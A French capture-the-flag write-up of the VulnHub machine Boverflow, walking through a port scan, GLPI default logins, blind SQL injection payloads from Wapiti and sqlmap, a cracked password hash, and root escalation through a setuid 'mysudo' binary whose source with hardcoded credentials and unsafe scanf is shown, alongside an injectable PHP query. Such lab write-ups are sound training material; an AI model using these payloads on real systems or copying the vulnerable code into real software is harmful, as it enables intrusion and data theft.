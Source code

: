 ```yaml
---
title: Solution du CTF Boverflow de VulnHub
date: 2022-01-11 20:06:00
tags: [CTF, VulnHub]
---
```


Slow Life
---------

[Boverflow](https://www.vulnhub.com/entry/boverflow-1,572/ "Boverflow") est un CTF créé par *foxlox*, auteur de différents CTFs proposé sur VulnHub.  

La description du CTF nous prévient que nos paquets pourraient être DROPés si on charge un peu trop la mule, c'est vraisemblablement dû à la présence d'un *fail2ban*.

Pour un scan de port ça semble passer. Le port 80 nous redirige directement sur une installation de [GLPI](http://glpi-project.org/ "GLPI").

```

Nmap scan report for 192.168.56.22
Host is up (0.00014s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 09:0a:c8:cb:7e:d7:3a:f0:5b:3d:c3:ab:1e:dd:a9:f1 (RSA)
|   256 d4:f2:ee:8c:d0:61:74:31:df:6b:5b:e1:c9:de:21:ad (ECDSA)
|_  256 0a:be:d2:86:51:c0:e9:2c:92:ed:15:5e:3c:e1:14:1c (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-title: GLPI - Authentication
|_Requested resource was http://192.168.56.22/glpi/
|_http-server-header: Apache/2.4.38 (Debian)

```

Ce site nous demande directement des identifiants, il ne semble pas y avoir d'accès publique.  

Une petite recherche sur Internet m'amène sur [ce forum](https://forum.glpi-project.org/viewtopic.php?id=23219 "ce forum") qui liste les comptes par défaut de ce logiciel. Tous ont un mot de passe par défaut qui correspond au nom d'utilisateur :

```

you have 4 differents profils
glpi/glpi (super-admin)
tech/tech
postonly/postonly (only for helpdesk)
normal/normal

```

J'ai testé rapidement et le compte *normal* fonctionne. Toutefois il ne semble pas assez privilégié pour ajouter des éléments via l'interface.  

Un exploit pour GLPI existe et [est détaillé dans cet article](https://offsec.almond.consulting/playing-with-gzip-rce-in-glpi.html "est détaillé dans cet article"). Il y a un code d'exploitation publié sur exploit-db et en le lisant on comprends qu'il créé une entrée via la secion *Wifi Networks.*  

Notre compte actuel ne permet donc pas cette exploitation.  

Timmy The Turtle
----------------

Via *feroxbuster* je trouve une mire de login à l'adresse [http://192.168.56.22/admin/](http://192.168.56.22/admin/ "http://192.168.56.22/admin/").  

On peut lancer Wapiti dessus en ne sélectionnant que le ou les modules les plus à même de remonter quelque chose d'intéressant afin d'éviter le ban sur la quantité de requêtes :

```bash
$ wapiti -u http://192.168.56.24/admin/ --color -m timesql -v2
[*] Lancement du module timesql
---
Vulnérabilité d'injection SQL en aveugle dans http://192.168.56.22/admin/verify.php via une injection dans le paramètre username
Evil request:
	POST /admin/verify.php HTTP/1.1
	Host: 192.168.56.22
	Referer: http://192.168.56.22/admin/
	Content-Type: application/x-www-form-urlencoded

	username=%27%20or%20sleep%287%29%231&password=Letm3in_
---
---
Vulnérabilité d'injection SQL en aveugle dans http://192.168.56.22/admin/verify.php via une injection dans le paramètre password
Evil request:
	POST /admin/verify.php HTTP/1.1
	Host: 192.168.56.22
	Referer: http://192.168.56.22/admin/
	Content-Type: application/x-www-form-urlencoded

	username=alice&password=%27%20or%20sleep%287%29%231
---

```

Nice ! On peut enchainer avec SQLmap mais en mode *vas-y molo*. Ça passe en utilisant l'option *delay* mais SQLmap ne la respecte pas vraiment puisqu'il faudrait aussi limiter le parallélisme à un seul thread pour que ce soit effectif.

```bash

$ python sqlmap.py -u http://192.168.56.24/admin/verify.php --data "username=admin&password=password" --dbms mysql --risk 3 --level 5 --delay 5

sqlmap identified the following injection point(s) with a total of 1328 HTTP(s) requests:
---
Parameter: username (POST)
	Type: error-based
	Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
	Payload: username=admin'||(SELECT 0x43724275 FROM DUAL WHERE 6495=6495 AND (SELECT 4399 FROM(SELECT COUNT(*),CONCAT(0x716b707a71,(SELECT (ELT(4399=4399,1))),0x71766a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'&password=password

	Type: time-based blind
	Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
	Payload: username=admin'||(SELECT 0x57544e49 FROM DUAL WHERE 9937=9937 AND (SELECT 9840 FROM (SELECT(SLEEP(5)))WtOD))||'&password=password
---

```

On trouve alors différentes DBs et la courante dispose d'un hash :

```

available databases [3]:
[*] basedb
[*] glpi
[*] information_schema

```

```

Database: basedb
Table: passwd
[1 entry]
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
| 1  | fox      | be073f86255a6d45d4392ca8fc226e73 |
+----+----------+----------------------------------+

```

Le hash est vite cassé via CrackStation (cleartext : *moanapozzi*).  

J'ai aussi extrais les hashs des users GLPI mais impossible de casser le compte privilégié *glpi*...

Lazy Fox
--------

Les identifiants de la base de donnés nous fournissent finalement un accès via SSH.

```bash

fox@boverflow:~$ cat user.txt 
a7de9153594943377ea6e508f5561a67

```

On trouve dans le dossier de l'utilisateur un binaire *mysudo* et son code source associé que voici :

```c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>

char cmd[100];

void execute()
{
	printf("Command output:\n");
	if (cmd) system(cmd);
}

void echo()
{
	printf("\nWelcome to mysudo tool, you can run a command on the system as root.\n\ndon't try brute force, it's impossible!\n\n");
		setuid(0);
	char username[20],password[20];
	printf("Command: ");
	scanf("%s", cmd);
	printf("Username: ");
	scanf("%s", username);
	printf("Password: ");
	scanf("%s", password);
	if ((!strcmp(username,"username"))&&(!strcmp(password,"password")))
	 execute(); 
	else
	 printf("Wrong username or password!\n");
}

int main()
{
	echo();
	return 0;
}

```

Evidemment si on effectue un strings sur le fichier on obtient des chaines sensiblement différentes (le mot de passe attendu a été changé).  

On peut aussi débugger le binaire avec gdb, désassembler la méthode *echo* et placer les breakpoints sur les appels à *strcmp*.  

Une inspection des registres *rdi* et *rsi* permettront ainsi de voir les chaines comparées.

```

Command output:
Welcome to mysudo tool, you can run a command on the system as root.
don't try brute force, it's impossible!
Command: 
Username: 
Password: 
username
passworaaaaaaaaaaaaaa
Wrong username or password!

```

On trouve la chaine *passworaaaaaaaaaaaaaa* qui n'est pas dans le code C.

```bash

fox@boverflow:~$ ./mysudo 

Welcome to mysudo tool, you can run a command on the system as root.

don't try brute force, it's impossible!

Command: bash
Username: username
Password: passworaaaaaaaaaaaaaa
Command output:
root@boverflow:~# id
uid=0(root) gid=1000(fox) groups=1000(fox),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
root@boverflow:~# cd /root
root@boverflow:/root# ls
root.txt
root@boverflow:/root# cat root.txt 
9057703b55b8943d91cad17ac3c4920f

```

Et voilà !  

Un petit coup d'œil au fichier verify.php nous permet de voir comment était formé la requête SQL :  

```php
$q="select count(*) from passwd where username='".$_POST['username']."' and password='".$_POST['password']."';";
```


*Published January 11 2022 at 20:06*
